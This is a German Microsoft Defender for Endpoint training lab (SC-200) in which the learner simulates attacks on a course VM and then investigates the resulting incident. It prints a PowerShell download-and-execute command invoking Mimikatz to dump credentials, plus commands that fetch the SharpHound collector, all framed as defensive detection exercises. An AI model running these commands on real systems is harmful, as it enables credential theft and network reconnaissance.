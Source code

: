 ```yaml
---
lab:
  title: Übung 2 – Entschärfen von Angriffen mit Microsoft Defender for Endpoint
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Lernpfad 2 – Übung 1 – Übung 2 – Minimieren von Angriffen mit Microsoft Defender for Endpoint

## Labszenario

![Übersicht über Lab.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Sie sind Security Operations Analyst in einem Unternehmen, das Microsoft Defender für Endpunkt implementiert. Ihr Vorgesetzter plant, einige Geräte zu integrieren, um einen Einblick in die erforderlichen Änderungen der Reaktionsverfahren des SecOps-Teams zu erhalten.

Um die Fähigkeiten von Defender for Endpoint zur Abwehr von Angriffen zu testen, führen Sie zwei simulierte Angriffe aus.

>**Hinweis:** Eine **[interaktive Labsimulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** ist verfügbar, mit der Sie dieses Lab in Ihrem eigenen Tempo durcharbeiten können. Möglicherweise liegen geringfügige Unterschiede zwischen der interaktiven Simulation und dem gehosteten Lab vor, aber die dargestellten Kernkonzepte und Ideen sind identisch. 


### Aufgabe 1: Überprüfung des Onboarding der Geräte

In dieser Aufgabe bestätigen Sie, dass das Gerät erfolgreich integriert ist und erstellen eine Testwarnung.

1. Wenn Sie noch nicht im Microsoft Defender XDR-Portal in Ihrem Microsoft Edge-Browser sind, navigieren Sie zu https://security.microsoft.com) und melden sich als Administrator*in für Ihren Mandanten an.

1. Wählen Sie im linken Menü unter **Ressourcen** die Option **Geräte** aus. Bitte warten Sie, bis WIN1 auf der Seite „Geräte“ angezeigt wird, bevor Sie fortfahren. Andernfalls müssen Sie diese Aufgabe möglicherweise wiederholen, um die später generierten Warnmeldungen zu sehen.

    >**Hinweis:** Wenn Sie den Onboarding-Prozess abgeschlossen haben und nach einer Stunde keine Geräte in der Liste „Geräte“ angezeigt werden, kann dies auf ein Onboarding- oder Verbindungsproblem hindeuten.

1. Wählen Sie in der linken Menüleiste **Einstellungen** und dann auf der Seite Einstellungen **Endpunkte** aus.

1. Wählen Sie im Abschnitt Geräteverwaltung **Onboarding** und stellen Sie sicher, dass *„Windows 10 und 11“* als Betriebssystem ausgewählt ist. Die Meldung *„Erstes Gerät integriert“* zeigt nun *Abgeschlossen* an.

1. Scrollen Sie nach unten und kopieren Sie im Abschnitt *„2. Erkennungstest durchführen“* das Erkennungstest-Skript, indem Sie die Schaltfläche **Kopieren**auswählen.  

1. Geben Sie in der Windows-Suchleiste den virtuellen Computer WIN1 **CMD** ein und wählen Sie im rechten Fensterbereich **Als Administrator ausführen** für die Eingabeaufforderung aus. 

1. Wenn das Fenster „Benutzerkontensteuerung“ angezeigt wird, wählen Sie **Ja**, um die App auszuführen. 

1. Fügen Sie das Skript ein, indem Sie mit der rechten Maustaste auf die **Administrator: Eingabeaufforderung** klicken und die **Eingabetaste** drücken, um es auszuführen.

    >**Hinweis:** Nach der Ausführung des Skripts schließt sich das Fenster automatisch.

### Aufgabe 2: Simulierte Angriffe

In dieser Aufgabe führen Sie zwei *simulierte* Angriffe mit *PowerShell* auf *WIN1* aus, um die Funktionen von Microsoft Defender for Endpoint zu erkunden.

`Attack 1: Mimikatz - Credential Dumping`

1. Geben Sie auf dem Computer *WIN1* die Zeichenfolge **Command** in die Suchleiste ein, und wählen Sie**Als Administrator ausführen** aus.

1. Kopieren Sie den folgenden Befehl, fügen Sie ihn in das Fenster **Administrator: Eingabeaufforderung** ein, und drücken Sie die **EINGABETASTE**, um ihn auszuführen.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Es sollte die Meldung *Zugriff verweigert* und eine Popupnachricht von `Microsoft Defender Antivirus, Windows Security Virus and threats protection` angezeigt werden, dass *Bedrohungen gefunden* wurden.

1. Schließen Sie das Fenster **Administrator: Eingabeaufforderung** durch Eingabe von **exit** und Drücken der **EINGABETASTE**.

`Attack 2: Bloodhound - Collection`

1. Geben Sie auf dem Computer *WIN1* die Zeichenfolge **PowerShell ** in die Suchleiste ein, und wählen Sie **Windows PowerShell** und dann **Als Administrator ausführen** aus.

1. Kopieren Sie die folgenden Befehle, fügen Sie sie in das Fenster **Administrator: Windows PowerShell** ein, und drücken Sie die **EINGABETASTE**, um sie auszuführen.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Hinweis:** Es wird empfohlen, die Befehle einzeln zu kopieren, einzufügen und auszuführen. Dazu können Sie *Editor* öffnen und die Befehle in eine temporäre Datei kopieren. Der erste Befehl erstellt einen Ordner namens *ExternalPayloads* in dem Ordner, in dem sich der Ordner *Atomic Red Team* befindet. Der zweite Befehl lädt die Datei *SharpHound.ps1* aus dem GitHub-Repository *BloodHound* herunter und speichert sie im Ordner *ExternalPayloads*.

1. Es sollte eine Popupmeldung von `Windows Security Virus and threats protection` angezeigt werden, dass *Bedrohungen gefunden* wurden.

1. Kopieren Sie den folgenden Befehl, fügen Sie ihn in das Fenster **Administrator: Windows PowerShell** ein, und drücken Sie die **EINGABETASTE**, um sie auszuführen.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Wenn die Ausgabe *True* lautet, wurde die Datei mit den Schadsoftwarenutzdaten von Microsoft Defender Antivirus nicht entfernt. Wenn die Ausgabe *False* lautet, wurde die Datei mit den Schadsoftwarenutzdaten von Microsoft Defender Antivirus entfernt. Verwenden Sie die NACH-OBEN-TASTE, um den Befehl zu wiederholen, bis die Ausgabe *False* lautet.

<!---1. From the left menu, under **Endpoints**, select **Evaluation & tutorials** and then select **Tutorials & simulations** from the left side.

1. Select the **Tutorials** tab.

1. Under *Automated investigation (backdoor)* you will see a message describing the scenario. Below this paragraph, click **Read the walkthrough**. A new browser tab opens which includes instructions to perform the simulation.

1. In the new browser tab, locate the section named **Run the simulation** (page 5, starting at step 2) and follow the steps to run the attack. **Hint:** The simulation file *RS4_WinATP-Intro-Invoice.docm* can be found back in portal, just below the **Read the walkthrough** you selected in the previous step by selecting the **Get simulation file** button. 

1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Aufgabe 3: Untersuchung der Angriffe

1. Wählen Sie im Microsoft Defender XDR-Portal auf der linken Menüleiste **Incidents und Warnungen** und dann **Incidents** aus.

1. Im rechten Bereich wird ein neuer Incident angezeigt mit der Meldung, dass auf einem Endpunkt mehrere Bedrohungsfamilien erkannt wurden. Wählen Sie den Namen des Vorfalls, um seine Details zu laden.

    >**Hinweis:** Im Bereich **Warnungen** sollten Warnungen von *Bloodhound* und *Mimikatz* angezeigt werden. Unter **Ressourcen/Geräte** hat der Computer *win1* jetzt die **Risikostufe** *Hoch*.

1. Wählen Sie die Schaltfläche **Vorfall verwalten** aus und ein neues Fenster wird geöffnet. 

1. Geben Sie unter **Incidenttags** die Zeichenfolge „Simulation“ ein, und wählen Sie **Simulation (Neu erstellen)** aus, um ein neues Tag zu erstellen. 

1. Wählen Sie die Schaltfläche **Zuweisen an**  und fügen Sie Ihr Benutzerkonto (Ich) als Besitzer des Vorfalls hinzu. 

1. Erweitern Sie unter **Klassifizierung**das Dropdownmenü. 

1. Wählen Sie unter **Information, erwartete Aktivität** **Sicherheitstests** aus. 

1. Fügen Sie bei Bedarf Kommentare hinzu und wählen Sie **Speichern**, um das Ereignis zu aktualisieren und zu schließen.

1. Überprüfen Sie den Inhalt der Registerkarten *Angriffshistorie, Alarme, Ressourcen, Untersuchungen, Beweise und Reaktion* und *Zusammenfassung*. Geräte und Benutzer befinden sich unter der Registerkarte *Ressourcen*. Die Registerkarte *Angriffshistorie* zeigt das *Vorfallsdiagramm*. Der **Hinweis:** Einige Registerkarten können aufgrund der Größe Ihres Bildschirms ausgeblendet sein. Wählen Sie die Registerkarte Auslassungspunkte (…), um sie anzuzeigen.

    >**Warnung:** Die hier gezeigten simulierten Angriffe sind eine hervorragende praktische Lernquelle. Führen Sie die Angriffe aus den Anweisungen für diese Übung nur aus, wenn Sie den für den Kurs bereitgestellten Azure-Mandanten verwenden.  Sie können andere simulierte Angriffe für diesen Mandanten durchführen, *nachdem* dieser Schulungskurs abgeschlossen wurde.

## Damit haben Sie das Lab beendet.
